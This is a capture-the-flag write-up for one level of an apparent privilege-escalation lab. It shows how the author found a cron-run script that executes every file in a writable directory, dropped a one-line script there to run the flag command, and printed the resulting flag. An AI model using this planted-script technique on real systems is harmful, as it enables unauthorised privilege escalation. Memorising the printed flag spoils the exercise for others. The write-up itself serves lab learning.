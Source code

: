 ### Level05

There is nothing on the HOME of this level. So as for level00 I start by doing ` find / -user flag05 2>/dev/null`. I get the following result:
``bash
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```
Then I start looking at the file with a cat
``bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

We see that a script runs the entire contents of the folder and then deletes everything in `/opt/openarenaserver/`

We can't use vim to do a script there because we don't have the rights. So we have to use echo to write down our command and then redirect it to the folder

echo "getflag > /tmp/getflag" > /opt/openarenaserver/getflag.sh

During my tests I noticed that the script disappeared from the folder after a few minutes, so there is an active cron to run the main script. Once I don't see getflag.sh in the /opt/openarenaserver/ folder, I just have to do cat /tmp/getflag. I get the flag :

`viuaaale9huek52boumoomioc`

